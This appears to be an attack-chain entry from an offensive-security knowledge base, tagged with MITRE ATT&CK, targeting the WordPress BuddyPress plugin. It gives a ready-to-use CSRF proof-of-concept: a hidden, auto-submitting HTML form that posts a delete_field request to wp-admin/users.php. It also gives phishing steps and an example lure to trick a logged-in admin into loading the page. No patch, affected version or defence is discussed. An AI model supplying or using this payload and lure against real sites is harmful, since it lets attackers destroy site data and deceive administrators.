

---
tags:
  - csrf
  - wordpress
  - buddypress
  - profile-deletion
  - web-exploit
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - PHP
  - WordPress
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-BuddyPress-CSRF-to-Delete-Profile-Field]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:23.269Z'
description: >-
  A multi-stage attack leveraging CSRF in BuddyPress to trick authenticated
  admins into deleting critical user profile fields, compromising site
  integrity.
skill_level: intermediate
impact_level: high
id: 384f7f33-dc64-4e71-b361-d9f8a6ddfd53
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation to Delete BuddyPress Profile Fields

Multi-stage attack chain demonstrating a complete CSRF workflow against BuddyPress profile fields management in WordPress.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard web browser and HTML crafting)

### Target Environment

- WordPress with BuddyPress plugin installed
- Admin user with access to wp-admin/users.php
- Target running on PHP web server

### Initial Access Requirements

- Attacker must lure authenticated admin to malicious site
- No direct credentials needed; exploits active session
- Network access to victim's browser

## Detailed Attack Procedures

### Step 1: Prepare Malicious Payload
procedure: [[procedures/Exploit-BuddyPress-CSRF-to-Delete-Profile-Field]]

**Objective**: Craft an HTML form that forges a POST request to the vulnerable BuddyPress delete endpoint without CSRF nonce validation.

**Instructions**: Create an HTML page with a hidden form targeting the delete action. Specify the field_id of the target profile field to delete. Host this on an attacker-controlled site.

```html
<!DOCTYPE html>
<html>
<head><title>Malicious Page</title></head>
<body>
    <form id="csrf-form" action="https://target.com/wp-admin/users.php" method="post" style="display:none;">
        <input type="hidden" name="page" value="bp-profile-setup">
        <input type="hidden" name="mode" value="delete_field">
        <input type="hidden" name="field_id" value="123">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
    <p>Click <a href="#" onclick="document.getElementById('csrf-form').submit();">here</a> if not auto-submitted.</p>
</body>
</html>
```
Replace `https://target.com` with the actual domain and `123` with the target field_id.

**Expected Output**: Form submission triggers a POST to /wp-admin/users.php, deleting the field if the admin is authenticated.

**Success Indicators**:
- Form loads and auto-submits in victim's browser
- No visible errors; request sent silently

### Step 2: Trick Admin Submission
procedure: [[procedures/Exploit-BuddyPress-CSRF-to-Delete-Profile-Field]]

**Objective**: Socially engineer the authenticated admin to visit the malicious page, causing their browser to submit the forged request using their session cookies.

**Instructions**: Distribute the malicious HTML via phishing email, malicious link in forum, or embed in an image/link on a compromised site. When the admin (logged into WordPress) interacts, their browser sends the request as if from the admin.

Example phishing lure: "Check this urgent profile update: [malicious-link]"

**Expected Output**: The profile field is deleted from the BuddyPress setup without admin intent, breaking site functionality.

**Success Indicators**:
- Admin visits the page while authenticated
- Target profile field no longer appears in BuddyPress admin
- Site logs show delete action from admin IP

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection in BuddyPress profile deletion
2. Achieved unauthorized data modification using victim's session
3. Compromised site integrity by removing critical user fields

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
